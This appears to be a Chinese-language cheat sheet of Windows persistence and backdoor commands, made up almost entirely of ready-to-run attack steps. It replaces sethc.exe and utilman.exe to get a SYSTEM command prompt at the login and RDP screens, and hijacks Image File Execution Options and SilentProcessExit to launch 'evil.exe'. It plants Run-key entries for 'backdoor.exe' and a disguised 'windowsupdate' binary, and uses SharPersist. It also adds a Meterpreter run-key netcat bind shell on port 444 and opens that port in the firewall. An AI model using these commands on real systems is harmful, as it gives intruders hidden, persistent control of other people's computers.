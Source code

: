   #### Sethc
	>move sethc.exe 1.exe
	>copy cmd.exe sethc.exe
	5下shift调用cmd
  #### 轻松使用
	注册表
	计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
	新建Utilman.exe，新建字符串值Debugger,指定为C:\Windows\System32\cmd.exe
	> REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
  #### IFEO静默执行
	计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe 新建DWORD值GlobalFlag 16进制为200
	创建：计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe字符串值：MonitorProcess=muma.exe
	DWORD值ReportingMode=1
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v GlobalFlag /t REG_DWORD /d 512 /f
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v ReportingMode /t REG_DWORD /d 1  /f
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v MonitorProcess /t REG_SZ /d "c:\windows\system32\cmd.exe" /f

  ### 注册表启动项
	HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
	HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce

	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	使用SharPersist
	>SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
	>SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
	>SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
  #### MSF
	添加一个监听
	Meterpreter> reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe'
	查询是否添加成功
	Meterpreter> reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
	Meterpreter> reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
	开启防火墙进站规则
	> netsh firewall add portopening TCP 444 "name" ENABLE ALL
	重启
	> shutdown -r -t 0
  #### CMD
	查看注册表启动项
	>REG query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	添加启动项
	>REG ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "windowsupdate" /t REG_SZ /F /D "c:\windows\temp\update.exe"
	删除启动项
	>REG delete "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "windowsupdate" /f
  #### GlobalFlag
  	notepad进程结束后执行后门
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
  #### RDP后门
  	RDP登录界面按Windows 键+U，获得一个SYSTEM权限的 cmd.exe 
  	>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
	在 RDP 登录屏幕时按多次 F5 
	>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f